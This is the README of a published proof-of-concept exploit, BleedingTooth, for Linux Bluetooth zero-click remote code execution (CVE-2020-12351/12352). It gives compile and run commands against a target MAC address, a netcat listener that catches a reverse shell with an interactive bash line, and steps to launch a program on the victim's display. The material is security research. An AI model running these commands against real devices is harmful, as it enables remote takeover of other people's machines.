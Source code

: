 # BleedingTooth: Linux Bluetooth Zero-Click Remote Code Execution

This Proof-Of-Concept demonstrates the exploitation of [CVE-2020-12351](https://github.com/google/security-research/security/advisories/GHSA-h637-c88j-47wq) and [CVE-2020-12352](https://github.com/google/security-research/security/advisories/GHSA-7mh3-gq28-gfrq).

## Technical details

Technical details about the exploit is available at [writeup.md](writeup.md).

## Usage

Compile it using:

```sh
$ gcc -o exploit exploit.c -lbluetooth
```

and execute it as:

```sh
$ sudo ./exploit target_mac source_ip source_port
```

In another terminal, run:

```sh
$ nc -lvp 1337
exec bash -i 2>&0 1>&0
```

If successful, a calc can be spawned with:

```sh
export XAUTHORITY=/run/user/1000/gdm/Xauthority
export DISPLAY=:0
gnome-calculator
```

This Proof-Of-Concept has been tested against a Dell XPS 15 running Ubuntu 20.04.1 LTS with:

- `5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux`

The success rate of the exploit is estimated at 80%.

## Credits

Andy Nguyen (theflow@)
